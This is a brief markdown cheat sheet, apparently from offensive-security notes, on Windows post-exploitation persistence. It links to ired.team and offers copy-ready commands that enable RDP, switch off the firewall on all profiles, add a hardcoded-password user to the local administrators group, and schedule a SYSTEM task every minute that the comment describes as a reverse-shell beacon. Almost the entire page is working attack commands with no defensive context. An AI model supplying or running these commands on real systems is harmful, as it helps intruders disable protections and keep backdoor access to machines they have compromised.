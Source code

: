 # Persistence

See [ired.team](https://www.ired.team/offensive-security/persistence)

```powershell
# Enable RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f

# Disable firewall
netsh advfirewall set allprofiles state off

# Add an administrative user to establish persistence
net user mojo Password123! /add
net localgroup administrators mojo /add
```

```powershell
# Add a beacon that pings a reverse shell every minute
schtasks /create /sc minute /mo 1 /tn "chillin" /tr C:\ProgramData\System\chillin.bat /ru "SYSTEM"
```